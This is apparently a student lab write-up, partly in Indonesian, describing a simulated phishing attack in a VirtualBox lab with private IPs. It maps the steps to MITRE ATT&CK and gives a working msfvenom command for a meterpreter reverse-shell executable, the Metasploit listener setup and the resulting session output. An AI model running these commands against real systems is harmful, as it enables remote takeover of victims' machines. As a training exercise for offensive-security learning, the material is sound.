


# Exploitation

## Attack Vector Summary
| Phase            | Technique                  | MITRE ID  |
|------------------|----------------------------|-----------|
| Initial Access   | Phishing: Mal. Attachment  | T1566.001 |
| Execution        | User Execution             | T1204.002 |
| Defense Evasion  | Obfuscated Files           | T1027     |
| C2 Communication | Application Layer Protocol | T1071.001 |

---

## Step-by-Step Walkthrough

### Step 1 — Generate Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe > payload.exe
```

### Step 2 — Setup Listener di Kali
```bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
exploit -j
```
Screenshot:



----------------------------------------------------------------

### Step 3 — Payload Delivery
Payload dipindahkan ke target via shared folder VirtualBox
(simulasi user membuka attachment dari email phishing).

### Step 4 — Session Established

    [*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.103:60052)

    meterpreter > sysinfo
    Computer        : WNDSDUMMY
    OS              : Windows 10 22H2+ (10.0 Build 19045)
    Architecture    : x64
    Domain          : WORKGROUP
    Meterpreter     : x86/windows

    meterpreter > getuid
    Server username: WNDSDUMMY\WDS

    meterpreter > getpid
    Current pid: 7500


Screenshot:


